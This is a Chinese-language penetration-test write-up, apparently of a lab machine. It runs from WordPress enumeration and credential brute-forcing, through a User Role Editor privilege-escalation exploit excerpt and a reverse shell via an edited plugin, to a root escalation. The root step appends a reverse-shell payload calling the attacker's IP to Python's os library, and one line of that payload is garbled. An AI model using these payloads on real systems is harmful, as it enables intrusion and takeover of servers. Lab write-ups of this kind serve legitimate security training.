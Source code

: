 ```yaml
---
title: 'WordPress提权与Python库劫持'
description: '通过WordPress用户权限提升漏洞突破防线，利用Python标准库劫持实现Root权限获取的渗透测试过程展示'
date: 2025-02-12
tags: ['Pentesting', 'Privilege escalation', 'Library hijacking', 'WordPress']
image: './assets/image-20250212151115590.png'
authors: ['0xd00']
---
```


## 初始信息

IP：10.10.250.233->jack.thm

服务器中运行了位置python脚本

## 信息收集

### 端口扫描

```bash
nmap -sS -sV -vv -T4 10.10.250.233
```

![端口扫描](./assets/image-20250212145736819.png)

**关键发现**:

- 开放80端口运行WordPress 5.3.2
- SSH服务运行于22端口
- 存在445端口（SMB）但无匿名访问
  ![80端口页面内容](./assets/image-20250212150139997.png)

### WordPress 信息枚举

```bash
wpscan --url http://jack.thm -e u,p,t
```

![Wp常见漏洞点xmlrpc](./assets/image-20250212151115590.png)

![wpscan枚举出的用户名和主题](./assets/image-20250212151504341.png)

但是后续使用`vp`和`ap`参数也没能识别出使用的插件

## 初始化访问

### WordPress 后台凭证爆破

```bash
wpscan -U users.txt -P /usr/share/wordlists/fasttrack.txt --url http://jack.thm
```

![爆破成功](./assets/image-20250212153343791.png)

使用爆破出的凭证访问后台

![wordpress后台](./assets/image-20250212153543331.png)

## 权限提升(WordPress)

可以发现此账户非管理员账户,没有主题和插件菜单,未发现其他漏洞点,需要想办法提权到管理员账号获取更多信息

```bash
searchsploit WordPress Privilege Escalation
```

![searchsploit搜索可利用exp](./assets/image-20250212155617767.png)

```bash
# 利用代码片段如下
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

......
    register_options(
      [
        OptString.new('TARGETURI',   [true, 'URI path to WordPress', '/']),
        OptString.new('ADMINPATH',   [true, 'wp-admin directory', 'wp-admin/']),
        OptString.new('CONTENTPATH', [true, 'wp-content directory', 'wp-content/']),
        OptString.new('PLUGINSPATH', [true, 'wp plugins directory', 'plugins/']),
        OptString.new('PLUGINPATH',  [true, 'User Role Editor directory', 'user-role-editor/']),
        OptString.new('USERNAME',    [true, 'WordPress username']),
        OptString.new('PASSWORD',    [true, 'WordPress password']),
	OptString.new('PRIVILEGES',  [true, 'Desired User Role Editor privileges', 'activate_plugins,delete_others_pages,delete_others_posts,delete_pages,delete_posts,delete_private_pages,delete_private_posts,delete_published_pages,delete_published_posts,edit_dashboard,edit_others_pages,edit_others_posts,edit_pages,edit_posts,edit_private_pages,edit_private_posts,edit_published_pages,edit_published_posts,edit_theme_options,export,import,list_users,manage_categories,manage_links,manage_options,moderate_comments,promote_users,publish_pages,publish_posts,read_private_pages,read_private_posts,read,remove_users,switch_themes,upload_files,customize,delete_site,create_users,delete_plugins,delete_themes,delete_users,edit_plugins,edit_themes,edit_users,install_plugins,install_themes,unfiltered_html,unfiltered_upload,update_core,update_plugins,update_themes,ure_create_capabilities,ure_create_roles,ure_delete_capabilities,ure_delete_roles,ure_edit_roles,ure_manage_options,ure_reset_roles'])
      ])
  end

 ......
    # Send HTTP POST request - update the specified user's privileges
    print_status("#{peer} - WordPress - Changing privs - #{username}")
    res = send_request_cgi({
      'method'    => 'POST',
      'uri'       => url,
      'vars_post' => {
        '_wpnonce'         => wp_nonce,
        '_wp_http_referer' => URI::encode(url),
        'from'             => 'profile',
        'checkuser_id'     => checkuser_id,
        'color-nonce'      => color_nonce,
        'admin_color'      => 'fresh',
        'admin_bar_front'  => '1',
        'first_name'       => '',
        'last_name'        => '',
        'nickname'         => nickname,
        'display_name'     => display_name,
        'email'            => email,
        'url'              => '',
        'description'      => '',
        'pass1'            => '',
        'pass2'            => '',
        'ure_other_roles'  => datastore['PRIVILEGES'],
        'action'           => 'update',
        'user_id'          => user_id,
        'submit'           => 'Update+Profile'
      },
      'cookie'    => cookie
    })

    # check outcome
    if res and res.code == 302
      print_good("#{peer} - WordPress - Changing privs - OK")
    else
      fail_with("#{peer} - WordPress - Changing privs - Server response (code #{res.code})")
    end
  end
end

# EoF
```

这段代码的关键是新增一个请求参数,并设置对应的权限:

```http
&ure_other_roles=activate_plugins,delete_others_pages,delete_others_posts,delete_pages,delete_posts,delete_private_pages,delete_private_posts,delete_published_pages,delete_published_posts,edit_dashboard,edit_others_pages,edit_others_posts,edit_pages,edit_posts,edit_private_pages,edit_private_posts,edit_published_pages,edit_published_posts,edit_theme_options,export,import,list_users,manage_categories,manage_links,manage_options,moderate_comments,promote_users,publish_pages,publish_posts,read_private_pages,read_private_posts,read,remove_users,switch_themes,upload_files,customize,delete_site,create_users,delete_plugins,delete_themes,delete_users,edit_plugins,edit_themes,edit_users,install_plugins,install_themes,unfiltered_html,unfiltered_upload,update_core,update_plugins,update_themes,ure_create_capabilities,ure_create_roles,ure_delete_capabilities,ure_delete_roles,ure_edit_roles,ure_manage_options,ure_reset_roles
```

![利用exp](./assets/image-20250212161232689.png)

![权限提升成功](./assets/image-20250212161555263.png)

## WebShell获取

```6666
nc -lvnp 6666
```
修改插件源码反弹shell

![修改插件源码](./assets/image-20250212162515764.png)

激活插件后成功获得反弹的shell

![获取到反弹shell](./assets/image-20250212162755599.png)

## SSH密钥发现

在浏览用户目录时发现以下信息

![新线索](./assets/image-20250212163003014.png)

新线索指向备份目录,检查常见的备份目录位置,在`/var/backups`目录找了一份`ssh`登录密钥

![备份目录的ssh密钥](./assets/image-20250212163616348.png)

拷贝到本地后尝试通过密钥登录

```bash
chmod 600 id_rsa
ssh -i id_rsa jack@10.10.250.233
```
成功以jack用户的密钥登录到服务器
![以jack账户登录到服务器](./assets/image-20250212163838089.png)

攻击环境下载`pspy64`,之后通过python创建http服务器

```bash
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64
python3 -m http.server
```

```bash
wget http://10.10.33.70:8000/pspy64
chmod u+x pspy64
./pspy64
```

发现到一个python脚本,经查询其默认调用的是python2

![pspy的部分输出](./assets/image-20250212170123250.png)

查看脚本内容

![python脚本内容](./assets/image-20250212170403318.png)

## Root提权

通过代码可以发现脚本功能是调用`curl`将请求127.0.0.1的请求头保存到日志文件中,目的大概是为了服务可用性记录.文件仅root可写

检查了curl和python2,并没有什么异常,但是在检查python2的库文件时发现库文件都属于`family`组

![python2库文件检查](./assets/image-20250212170847348.png)

查看`jack`的用户组

```bash
jack@jack:/opt/statuscheck$ id
uid=1000(jack) gid=1000(jack) groups=1000(jack),4(adm),24(cdrom),30(dip),46(plugdev),115(lpadmin),116(sambashare),1001(family)
```

### Python库劫持攻击

jack也在`family`组中,所以可以通过修改`os`库来进行提权

```bash
# 追加到os文件的末尾
import socket
import ptys=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.33.70", 6665))
dup2(s.fileno(),0)
dup2(s.fileno(),1)
dup2(s.fileno(),2)
pty.spawn("/bin/bash")
s.close()
```

等待脚本被调用

...

成功提升到root权限

![提权成功](./assets/image-20250212172253103.png)
